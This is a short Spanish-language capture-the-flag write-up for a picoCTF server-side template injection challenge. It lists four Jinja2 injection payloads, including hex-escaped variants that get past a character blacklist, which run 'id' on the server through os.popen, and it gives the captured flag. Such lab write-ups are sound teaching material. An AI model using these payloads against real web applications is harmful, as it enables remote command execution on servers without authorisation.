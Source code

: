## Descripción 
I made a cool website where you can announce whatever you want! I read about input sanitization, so now I remove any kind of characters that could be a problem :)
I heard templating is a cool and modular way to build web apps! Check out my website [here](http://shape-facility.picoctf.net:60523/)!

Hint:
1. Server Side Template Injection
2. Why is blacklisting characters a bad idea to sanitize input?
## Solución 1

Ingresamos a la página dada e ingresamos valores y son incorrectos, en la pista nos dice que son las SSTI y las buscamos. Esto significa que servidor no filtra correctamente lo que los usuarios ingresan permitiendo inyectar código, buscamos inyecciones de código que funcionen. A diferencia de SSTI1 no funciona con la misma inyección, vamos probando otros diferentes hasta que demos con el correcto.

```
Inyecciones de código usadas antes de dar con la correcta:
1. {{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
2. {{request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('id')['read']()}}
3. {{request['application']['\x5f\x5fglobals\x5f\x5f']['\x5f\x5fbuiltins\x5f\x5f']['\x5f\x5fimport\x5f\x5f']('os')['popen']('id')['read']()}}
4. {{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}

flag: picoCTF{sst1_f1lt3r_byp4ss_96a02202}
```

## Referencias
https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/